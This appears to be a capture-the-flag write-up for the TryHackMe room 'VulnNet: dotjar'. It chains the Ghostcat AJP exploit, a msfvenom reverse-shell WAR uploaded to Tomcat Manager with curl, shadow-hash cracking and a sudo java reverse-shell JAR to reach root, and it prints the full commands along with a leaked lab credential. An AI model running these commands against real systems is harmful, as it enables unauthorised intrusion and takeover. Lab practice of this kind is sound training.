 ```yaml
---
title: Vulnet dotjar
layout: post
author: Bit Criminals Team
date: 2021-05-12 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotjar
---
```


Let's start our daily routine nmap scan:

![](/images/dotjar1.png)

So, we get a 8009 port and a 8080 port on which Apache Tomcat is running.Well,the 8009 was new to me at least.

I then ran gobuster for port 8080 and here's what I got

![](/images/dotjar4.png)

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help.

After searching a bit,I finally found a help 
from my bestie-Google.I found a article about a exploit named **Ghostcat** CVE-2020-1938.

```https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp```

Then,I searched for this exploit with searchsploit and look I found a python script:multiple/webapps/48143.py 

![](/images/dotjar2.png)

Finally I ran the python script.

```python 48143.py <boxip>```

![](/images/dotjar3.png)

and here we go.We get a username and a password ***webdev:Hgj3LA$02D$Fa@21***.That's what we wanted. 

Then,again I started to look for some exploits to hack the Tomcat apache server running in port 8080
and google again prove it's supremacy.

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

Reading this article I understood that we had to create a reverse shell and then upload it to port 8080.
I also understood that the exploit must be a war file.Here's what I came up with msfvenom. 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=1234 -f war > shell.war```

Then, I uploaded it with curl command as follows

``` curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file shell.war  "http://ip:8080/manager/text/deploy?path=/monshell"```

Listening to the given port,1234 as given in the exploit in this case,I opened the /monshell/ directory in which I had uploaded the shell.

And,yes we get a shell and I was logged in as 'web'

![](/images/dotjar5.png)

After searching a bit we found a backup file of shadow in the /var/backups folder so we copied it to /tmp and gunzipped it to retrieve the shadow file.

![](/images/jar.png)

Then we cracked the password hash for jdk-admin using john and logged in as jdk-admin

![](/images/jar2.png)

Now we can view the user flag..

![](/images/jar3.png)

After doinng `**sudo -l**` we found that we have root permissions to run any java file.

![](/images/jar4.png)

So we created an exploit using msfvenom 

```py
msfvenom -p java/shell_reverse_tcp lhost=<local ip> lport=1234 -f jar -o pwn.jar
```
Then i opened a http-server and transferred the payload to the shell using wget 

![](/images/jar5.png)

```py
python3 -m http.server 80
wget <local ip>/pwn.jar --output-document=pwn.jar
```
And opened a listening port 1234 in my terminal and ran the .jar file in the shell.Thus we got the root access 

```py
sudo /usr/bin/java -jar pwn.jar
```
Now we can view the root flag as well!!

![](/images/jar6.png)




